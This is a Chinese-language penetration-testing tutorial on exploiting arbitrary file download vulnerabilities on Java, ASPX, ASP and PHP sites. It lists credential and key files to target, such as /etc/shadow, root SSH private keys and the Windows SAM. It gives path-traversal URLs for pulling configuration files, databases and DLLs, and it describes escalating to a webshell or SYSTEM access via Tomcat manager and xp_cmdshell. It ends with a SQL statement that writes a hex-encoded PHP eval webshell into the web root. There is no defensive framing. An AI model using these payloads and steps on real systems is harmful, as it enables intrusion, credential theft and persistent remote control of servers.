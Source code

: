 # 任意文件下载漏洞

几种常见架构的利用过程：
因为文件下载漏洞不像其他漏洞那样有通用的利用方法和相关工具，所以漏洞的
利用过程与具体的网站架构关系很大，需要了解常见的网站的架构，如网站的配
置文件位置等信息，下面分别介绍此漏洞在常见几种网站中利用方法。
• java站点
• aspx站点
• asp站点
• php站点

## windows 敏感文件

敏感文件——Windows：
C:\boot.ini //查看系统版本
C:\Windows\System32\inetsrv\MetaBase.xml //IIS配置文件
C:\Windows\repair\sam //存储系统初次安装的密码
C:\Program Files\mysql\my.ini //Mysql配置
C:\Program Files\mysql\data\mysql\user.MYD //Mysql root
C:\Windows\php.ini //php配置信息
C:\Windows\my.ini //Mysql配置信息

## linux敏感文件

敏感文件——Linux：
/root/.ssh/authorized_keys
/root/.ssh/id_rsa
/root/.ssh/id_ras.keystore
/root/.ssh/known_hosts
/etc/passwd
/etc/shadow
/etc/my.cnf /etc/httpd/conf/httpd.conf
/root/.bash_history
/root/.mysql_history
/proc/self/fd/fd[0-9]*(文件标识符)
/proc/mounts
/porc/config.gz

## java站点

### 1）下载tomcat-users.xml
tomcat-users.xml 在conf文件下，尝试直接使用下载点下载该文件。
因此构造url类似如下形式:
http://www.test.cn/down.jsp?filename=tomcatusers.xml&path=C:/Program%20Files/Apache%20Software%20Foundation/Tomcat%206.0/conf/tomcat-users.xml
从下载到的tomcat-users.xml文件中可以获得tomcat控制台的登录账号和密码，
从而尝试登录manager/html，上传一个war文件，就可以获得webshell。

### 2）下载web.xml

首先下载网站的配置文件jsp的配置文件放在根目录WEB-INF/Web.xml下(一般都
有很多内容,有时含有数据库连接用户名和密码等关键信息)
访问:
http://test/file.do?method=downFile&fileName=../WEB-INF/Web.xml
获得web.xml后，我们可以获取数据库连接凭据、web站点所安装的组建等信息，
通过对这些内容的分析，来决定下一步的行动。
如尝试连接数据库、寻找安装组件的已知漏洞等。

## aspx站点

### 1）利用sql server渗透
对于aspx站点一般后台都是sql server数据库，因此利用该漏洞的最简单的方法
是直接获得数据库密码，直接登录数据库，利用sql server完成渗透。
首先确定网站根目录下载web.config文件，aspx站点用根目录下的web.config文
件保存配置信息。
尝试确定根目录:
http://www.test.org/DownLoadFileLow.aspx?FileName=../web.config
http://www.test.org/DownLoadFileLow.aspx?FileName=../../web.config
打开配置文件找到连接数据库项，尝试连接mysql数据库，sa权限的话直接开启
xp_cmdshell，获得system权限。
非sa权限可以通过差异备份等方式，获得webshell。

### 2）下载dll文件

首先下载DownLoad.aspx文件，主要是想查看这个aspx站点是否将源代码放到dll文件，这样的
话就可以直接下载dll获得源代码。
尝试下载: http://www.test.com.cn/DownLoad.aspx?fileName=../../DownLoad.aspx
在此尝试下载对应的DownLoad.aspx.cs文件
http://www.test.com.cn/DownLoad.aspx?fileName=../../DownLoad.aspx.cs
失败，说明本站点的源代码放到dll文件中，并且DownLoad.aspx对应的源代码是
xkcms.webForm.DownLoad，现在主要来猜解一下dll文件名，由这个命令空间
xkcms.webForm.DownLoad可以知道DownLoad不是，只能一个一个猜测。
http://www.test.com.cn/DownLoad.aspx?fileName=../../bin/xkcms.dll
http://www.test.com.cn/DownLoad.aspx?fileName=../../bin/webForm.dll
猜测成功，dll是被编译过，直接使用.net reflector工具打开编译后的dll文件，即可获得站点源码，
接下来就是通过源码审计，尝试发现更多可利用的漏洞。

## asp站点

一般的asp站点都是access数据库（连接sql server 直接可以参考aspx站点的利
用方法）。而access数据库可以直接下载，因此利用该漏洞比较简便的方法就是
直接下载access数据库，找到管理员密码登陆后台，利用后台的上传功能，上传
shell.
确定站点根目录:
http://www.testcn/GraduateSchool/dlsd/download.asp?filename=../../GraduateS
chool/dlsd/download.asp
下一步，找到网站与数据库操作的动态页面，动态页面中一般使用include包含
连接数据库的配置文件。
找到后台登陆入口
http://www.testcn/jianshen/F89A1/ Admin_login.asp

下载该登陆界面:
http://www.testcn/GraduateSchool/dlsd/download.asp?filename=../../ jianshen/F89A1/
Admin_login.asp
打开下载后文件，可以确定数据库连接文件在inc/conn.asp中，再下载该文件
http://www.testcn/GraduateSchool/dlsd/download.asp?filename=../../ jianshen/F89A1/
inc/conn.asp
打开该文件，可以看到数据库路径。
http://www.testcn/jianshen/database/adsfkldfogowerjnokfdslwejhdfsjhk.mdb
直接下载失败。应该是做了限制。使用下载点下载
http://www.testcn/GraduateSchool/dlsd/download.asp?filename=../../
jianshen/database/adsfkldfogowerjnokfdslwejhdfsjhk.mdb
打开数据库，获得管理员用户名和密码(密码md5加密)，破解md5，登录后台，尝试上传shell。

## php站点

php一般是mysql数据库，一般mysql数据库禁止远程连接，但是有些站点会使用
使用phpMyAdmin进行管理。
下载数据库配置文件：
www.test.edu.tw/download.php?filename=../conf/config.php&dir=/&title=config.
php
下载获得mysql数据库的用户名和密码是root权限
直接使用phpMyAdmin登录，然后使用mysql导出文件功能导出一句话即可：
select 0x3C3F706870206576616C28245F504F53545B636D645D293F3E into
dumpfile '/home/webadm/public_html/app/test.php'